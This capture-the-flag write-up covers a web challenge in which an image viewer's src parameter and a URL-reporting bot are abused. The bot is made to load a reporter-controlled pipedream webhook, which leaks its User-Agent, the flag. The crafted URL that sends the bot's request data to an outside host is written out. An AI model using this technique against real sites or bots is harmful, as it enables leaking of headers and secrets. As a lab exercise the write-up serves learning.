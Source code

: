 # Web - Kara Jutsus Platform (Unintended Solution)

## Challenge description:

![image](https://user-images.githubusercontent.com/70543460/209965346-78ea05c5-ad92-446a-935f-c74f146ae333.png)

## Solution:

### (1) Testing the web application:

First, I started with testing the functionality of the web application:

The first part of the web application is used to view some Jutsu images:

![image](https://user-images.githubusercontent.com/70543460/209966222-ee42263f-f2ba-4378-a269-e4c2ecc5f51a.png)

![image](https://user-images.githubusercontent.com/70543460/209966849-59bae41c-5d8b-4b4d-9499-64a57e63c638.png)

I also tried viewing an external image and I was able to that:
```
http://54.205.207.242/index.php?src=https://i.kym-cdn.com/entries/icons/original/000/026/489/crying.jpg
```

![image](https://user-images.githubusercontent.com/70543460/209968731-707fc713-81d8-47d0-9e55-9f5ddfc1dfcb.png)


Quick Note:
Here is the meaning of "Jutsu": 😆

![image](https://user-images.githubusercontent.com/70543460/209966654-ec111b30-1827-4736-92bf-c0007e708303.png)

<br/>

The second part of the web application was "Report To Amado" panel, and that's where you can enter a url to report:

![image](https://user-images.githubusercontent.com/70543460/209967024-ca51287e-71c4-4f25-b798-e9725e907e31.png)

![image](https://user-images.githubusercontent.com/70543460/209967190-f90c78d4-522f-407a-b28d-19474b804a57.png)

I entered the URL of a webhook to test the functionality of "Report To Amado" panel:

![image](https://user-images.githubusercontent.com/70543460/209967352-73894ed6-9ef1-4db3-ba5c-f0cb2b63bff5.png)

And I got the following request:

![image](https://user-images.githubusercontent.com/70543460/209967687-a655ac90-c39f-4430-aa8d-115259ee3378.png)

<br/>

### (2) Getting the flag:

According to the description, the flag is the User-Agent of the bot, but it only appears when I report a link starting with ```http://54.205.207.242```, so I tried reporting the following URL:

```
http://54.205.207.242/index.php?src=https://eoa28qm3szvm2q9.m.pipedream.net
```

Noting that ```https://eoa28qm3szvm2q9.m.pipedream.net``` is my webhook.

![image](https://user-images.githubusercontent.com/70543460/209968034-23dddaf6-44c2-47a7-8e78-1a6202743bee.png)

<br/>

Bingo! I got the flag:

![flag](https://user-images.githubusercontent.com/70543460/209968154-b825033c-ddf8-493c-b421-97d14a10ac30.png)
